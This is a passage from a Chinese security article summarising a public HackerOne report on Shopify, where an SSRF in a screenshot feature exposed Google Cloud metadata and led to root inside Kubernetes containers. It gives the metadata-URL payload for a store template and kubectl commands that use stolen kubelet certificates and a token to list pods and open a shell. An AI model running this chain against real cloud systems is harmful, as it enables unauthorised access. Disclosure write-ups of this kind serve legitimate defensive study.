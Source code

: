 国外 hackerone 漏洞赏金平台公开了一份关于 Shopify 的漏洞报告，通过利用 Shopify Exchange 的屏幕截图功能中的服务器端请求伪造错误，获取对集群中任意容器的 root 访问权限。  
漏洞利用的关键过程如下：

**访问 Google Cloud Metadata**

1.  创建商店（partners.shopify.com）
2.  编辑模板 password.liquid 并添加以下内容：
    
    ```
    <script>
        http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json
    </script>
    
    
    ```
    
3.  转到`https://exchange.shopify.com/create-a-listing` 并安装 Exchange 应用程序
4.  等待商店屏幕截图显示在 “创建列表” 页面上
5.  下载 PNG 并使用图像编辑软件打开它或将其转换为 JPEG

由于元数据隐藏未启动，造成 `kube-env`属性可以被调用。返回了 Kubelet 的证书及密钥，调用 kubectl 可以实现对 pod 的查询

```
$ kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://██████ get pods --all-namespaces

NAMESPACE   NAME      READY STATUS RESTARTS   AGE
██████████  ████████    1/1


```

但是无法对指定 pod 进行操作，获取返回的 shell。通过 kubectl 对指定 pod 执行 describe 和 get secret 找到 token 所在位置。使用 token 及证书实现对指定 pod 的命令执行

```
$ kubectl --certificate-authority ca.crt --server https://████ --token "█████.██████.███" exec -it w█████████ -- /bin/bash

Defaulting container name to web.
Use 'kubectl describe pod/w█████████' to see all of the containers in this pod.
███████:/# id
uid=0(root) gid=0(root) groups=0(root)
█████:/# ls
app  boot   dev  exec  key  lib64  mnt  proc  run   srv  start  tmp  var
bin  build  etc  home  lib  media  opt  root  sbin  ssl  sysusr
███████:/# exit


```

详细利用过程可参考报告 `https://hackerone.com/reports/341876`

**六、总结**
--------

在 DevOps、微服务等云原生应用的开发过程中，kubernetes 技术提供了极大的便利，经过近几年的发展，显示了强大的优势。近年来，由于容器以及容器应用环境引发的安全风险与安全事件不断的被曝出，集群组件、容器镜像、暴露的 API、容器的隔离等问题成为了容器使用时需要着重考虑的问题。

作者：斗象能力中心 TCC – Halo